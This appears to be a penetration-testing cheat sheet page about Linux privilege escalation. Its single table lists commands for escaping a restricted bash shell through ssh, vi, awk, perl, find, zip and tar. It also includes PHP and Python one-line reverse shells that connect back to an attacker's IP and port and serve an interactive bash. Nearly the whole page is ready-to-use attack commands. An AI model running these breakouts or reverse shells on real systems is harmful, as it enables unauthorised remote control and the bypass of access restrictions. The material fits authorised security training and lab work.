 # Linux PrivEsc CheatSheet
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

## Restricted Bash Shell Breakout:
| Command                                                                                                                                                                                                                      	| Notes                                                                                                                                       	|
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	|---------------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                                                                                                                                                       	| Determine if we are in an rbash shell (/bin/rbash)                                                                                          	|
| ssh user@ip -t "bash --noprofile"                                                                                                                                                                                            	| Bypass rbash if we can use SSH along with a known username and password                                                                     	|
| vi<br>:set shell=/bin/bash<br>:shell                                                                                                                                                                                         	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                                  	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                                                                                                                                                       	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener.    	|
| python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 	| Use Python to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");'                                                                                                                            	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                                	|
| awk 'BEGIN {system("/bin/bash")}'                                                                                                                                                                                            	| Escape rbash using AWK                                                                                                                      	|
| perl -e 'system("/bin/bash");'                                                                                                                                                                                               	| Use PERL to escape rbash and spawn a bash shell                                                                                             	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                                                                                                                                              	| Use the find command to execute the /bin/bash binary                                                                                        	|
| cp /bin/bash .                                                                                                                                                                                                               	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                       	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                                                                                                                                             	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                             	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                                                                                                                                                  	| Use the tar command to execute the bash binary upon archive creation.                                                                       	|

